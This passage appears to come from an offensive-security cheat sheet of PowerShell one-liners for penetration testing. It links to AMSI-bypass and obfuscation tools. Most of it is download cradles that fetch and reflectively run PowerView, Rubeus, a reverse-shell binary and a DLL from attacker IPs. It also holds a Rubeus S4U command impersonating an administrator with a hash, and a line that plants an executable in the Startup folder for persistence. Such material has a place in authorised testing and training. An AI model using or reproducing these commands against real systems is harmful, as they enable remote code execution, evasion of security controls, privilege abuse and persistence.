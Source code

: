 > More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a pre-generated obfuscated version at [amsi.fail](https:///amsi.fail).

### PowerShell one-liners

#### Load PowerShell script reflectively

Proxy-aware:

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1') 
```

Non-proxy aware:

```
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText 
```

> Again, this will likely get flagged 🚩. For opsec-safe download cradles, check out [Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter).

#### Load C# assembly reflectively

Ensure that the referenced class and main methods are Public before running this. Note that a process-wide AMSI bypass may be required for this, [refer here for details](https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/).

```
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())

# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null) 
```

#### Download file

```
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Incnspc64.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Incnspc64.exe" 
```
